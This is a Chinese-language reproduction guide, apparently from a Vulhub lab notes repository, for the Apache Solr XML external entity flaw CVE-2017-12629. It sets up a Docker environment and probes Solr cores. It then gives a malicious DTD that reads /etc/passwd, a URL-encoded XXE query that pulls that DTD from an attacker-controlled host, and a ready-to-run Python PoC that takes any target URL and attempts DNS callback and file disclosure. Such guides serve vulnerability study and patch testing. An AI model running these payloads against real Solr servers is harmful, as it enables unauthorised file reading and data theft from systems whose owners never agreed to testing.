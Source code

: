 # Apache Solr XML 实体注入漏洞 CVE-2017-12629

## 漏洞描述

漏洞原理与分析可以参考：

- https://www.exploit-db.com/exploits/43009/
- https://paper.seebug.org/425/

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE），二者可以连接成利用链，编号均为CVE-2017-12629。

本环境仅测试XXE漏洞，RCE和利用链，可以在 https://github.com/vulhub/vulhub/tree/master/solr/CVE-2017-12629-RCE 中查看。

## 影响版本

```
Apache Solr < 7.1
Apache Lucene < 7.
```

## 环境搭建

Vulhub运行漏洞环境：

```
docker-compose up -d
```

命令执行成功后，需要等待一会，之后访问`http://your-ip:8983/`即可查看到Apache solr的管理页面，无需登录。

![image-20220301105333970](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011053067.png)

## 漏洞复现

先请求url地址获取 cores 内容：

```
http://your-ip:8983/solr/admin/cores
```

![image-20220301105955851](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011059940.png)



访问dnslog，验证漏洞是否存在（注意这里的`demo`是从上一步中得到的）：

```plain
http://your-ip:8983/solr/demo/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://xxxxx.ceye.io"><a></a>'}&wt=xml
```

![image-20220301110437717](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011104795.png)

查看dnslog得到请求，漏洞存在：

![image-20220301110501757](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011105791.png)

在自己的服务器上写入一个可访问的XML文件solr_xxe.dtd，内容写入：

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">
```

然后请求这个文件来读取服务器上的文件：

```plain
http://your-ip:8983/solr/demo/select?&q=%3C%3fxml+version%3d%221.0%22+%3f%3E%3C!DOCTYPE+root%5b%3C!ENTITY+%25+ext+SYSTEM+%22http%3a%2f%2fyour.domain%2fsolr_xxe.dtd%22%3E%25ext%3b%25ent%3b%5d%3E%3Cr%3E%26data%3b%3C%2fr%3E&wt=xml&defType=xmlparser

# 解码
/solr/demo/select?&q=<?xml version="1.0" ?><!DOCTYPE root[<!ENTITY % ext SYSTEM "http://your.domain/solr_xxe.dtd">%ext;%ent;]><r>&data;</r>&wt=xml&defType=xmlparser
```

![image-20220301110950324](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011109416.png)

注意这里的payload进行了url编码,请求的文件为`http://your.domain/solr_xxe.dtd`，有更多需求自行更改写入的xml文件。

## 漏洞POC

```
# solr_xxe.dtd

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">
```

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-

import requests
import sys
import json
import random

def POC_1(target_url):
    core_url = target_url + "solr/admin/cores?indexInfo=false&wt=json"
    try:
        response = requests.request("GET", url=core_url, timeout=10)
        core_name = list(json.loads(response.text)["status"])[0]
        print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
        print('Core name: ', core_name)
        return core_name
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, core_name, dnslog_url):
    dns_payload = """solr/%s/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "%s"><a></a>'}&wt=xml""" % (core_name, dnslog_url)
    vuln_url = target_url + dns_payload
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    try:
        response = requests.request("GET", url=vuln_url, headers=headers, timeout=30)
        if "HTTP ERROR 500" in response.text:
            print("\033[31m[x] 漏洞利用失败 \033[0m")
        else:
            print("\033[32m[o] 请查看dnslog响应, DNSlog利用Url为：" + vuln_url + "/config\033[0m")
    except:
            print("\033[31m[x] 漏洞利用失败 \033[0m")

def POC_3(target_url, core_name):
    file_payload = """solr/{}/select?&q=%3C%3fxml+version%3d%221.0%22+%3f%3E%3C!DOCTYPE+root%5b%3C!ENTITY+%25+ext+SYSTEM+%22http%3a%2f%2fyour.vps.here%2fsolr_xxe.dtd%22%3E%25ext%3b%25ent%3b%5d%3E%3Cr%3E%26data%3b%3C%2fr%3E&wt=xml&defType=xmlparser""".format(core_name)
    vuln_url = target_url + file_payload
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }

    response = requests.request("GET", url=vuln_url, headers=headers, timeout=30)
    if "nologin" in response.text:
        print("\033[32m[o] 漏洞成功利用, Url为：/config\033[0m \n", vuln_url )
        print("\033[32m[o] 响应为: \n \033[0m",response.text)
    else:
        print("\033[31m[x] 漏洞利用失败 \033[0m")

if __name__ == '__main__':
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    core_name = POC_1(target_url)   
    dnslog_url = 'http://{}.your.dnslog.here'.format(core_name)
    POC_2(target_url, core_name, dnslog_url)
    POC_3(target_url, core_name)
```

![image-20220210161443057](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011056712.png)

